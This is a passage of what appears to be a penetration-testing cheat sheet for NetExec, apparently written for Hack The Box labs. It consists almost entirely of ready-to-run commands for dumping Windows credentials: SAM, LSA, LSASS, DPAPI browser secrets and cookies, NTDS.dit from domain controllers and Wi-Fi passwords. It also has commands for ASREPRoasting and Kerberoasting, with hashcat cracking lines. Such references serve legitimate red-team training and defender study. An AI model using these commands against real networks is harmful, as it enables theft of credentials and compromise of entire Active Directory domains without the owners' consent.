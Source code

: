```bash
Intrusionz3r0X@htb[/htb]$ nxc smb 172.16.251.152 -u user -p pass --put-file /tmp/whoami.txt \\Windows\\Temp\\whoami.txt
Intrusionz3r0X@htb[/htb]$ nxc smb 172.16.251.152 -u user -p pass --get-file  \\Windows\\Temp\\whoami.txt /tmp/whoami.txt
```

Obtaint Credentials

```bash
#DUMP SAM (Admin or local admin privilege)
Intrusionz3r0X@htb[/htb]$ nxc smb 192.168.1.0/24 -u UserName -p 'PASSWORDHERE' --sam

#Dump LSA (Admin or local admin privilege)
Intrusionz3r0X@htb[/htb]$ nxc smb 192.168.1.0/24 -u UserName -p 'PASSWORDHERE' --lsa

#Dump LSASS (Admin or local admin privilege)
Intrusionz3r0X@htb[/htb]$ nxc smb 192.168.255.131 -u administrator -p pass -M lsassy
Intrusionz3r0X@htb[/htb]$ nxc smb 192.168.255.131 -u administrator -p pass -M nanodump

#DPAPI credentials get all secrets from Credential Manager, Chrome, Edge, Firefox.
$ nxc smb <ip> -u user -p password --dpapi
$ nxc smb <ip> -u user -p password --dpapi cookies
$ nxc smb <ip> -u user -p password --dpapi nosystem
$ nxc smb <ip> -u user -p password --local-auth --dpapi nosystem

# Dump the NTDS.dit from target DC (Admin or local admin privilege)
Intrusionz3r0X@htb[/htb]$ nxc smb 192.168.1.100 -u UserName -p 'PASSWORDHERE' --ntds
Intrusionz3r0X@htb[/htb]$ nxc smb 192.168.1.100 -u UserName -p 'PASSWORDHERE' --ntds --users
Intrusionz3r0X@htb[/htb]$ nxc smb 192.168.1.100 -u UserName -p 'PASSWORDHERE' --ntds --users --enabled
Intrusionz3r0X@htb[/htb]$ nxc smb 192.168.1.100 -u UserName -p 'PASSWORDHERE' --ntds vss
Intrusionz3r0X@htb[/htb]$ nxc smb 192.168.1.100 -u UserName -p 'PASSWORDHERE' -M ntdsutil

#Dump WIFI Passwords
Intrusionz3r0X@htb[/htb]$ nxc smb <ip> -u user -p pass -M wifi
```

ASREPRoast attack

```bash
Intrusionz3r0X@htb[/htb]$ nxc ldap 192.168.0.104 -u harry -p '' --asreproast output.txt
Intrusionz3r0X@htb[/htb]$ nxc ldap 192.168.0.104 -u user.txt -p '' --asreproast output.txt
#hashcat -m18200 output.txt wordlist
```

**Kerberoasting Attack**

```bash
Intrusionz3r0X@htb[/htb]$ nxc ldap 192.168.0.104 -u harry -p pass --kerberoasting output.txt
#hashcat -m13100 output.txt wordlist.txt
```